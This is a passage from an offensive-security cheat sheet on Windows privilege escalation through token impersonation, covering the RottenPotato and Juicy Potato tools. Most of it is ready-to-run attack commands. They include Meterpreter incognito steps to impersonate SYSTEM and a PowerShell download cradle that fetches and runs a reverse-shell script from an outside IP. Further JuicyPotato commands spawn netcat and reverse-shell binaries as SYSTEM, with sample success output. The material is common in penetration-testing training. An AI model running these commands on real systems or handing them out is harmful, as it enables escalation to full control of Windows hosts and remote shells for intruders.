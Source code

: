### RottenPotato (Token Impersonation)

Binary available at : https://github.com/foxglovesec/RottenPotato
Binary available at : https://github.com/breenmachine/RottenPotatoNG

```c
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```


### Juicy Potato (abusing the golden privileges)

Binary available at : https://github.com/ohpe/juicy-potato/releases    
:warning: Juicy Potato doesn't work in Windows Server 2019. 

1. Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)

    ```powershell
    whoami /priv
    ```

2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object

    * [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise) 
    * [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
    * [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
    * [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
    * [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise) 
    * [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
    * [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard) 

3. Execute JuicyPotato to run a privileged command.

    ```powershell
    JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
    JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
        Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
        ......
        [+] authresult 0
        {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
        [+] CreateProcessWithTokenW OK
    ```
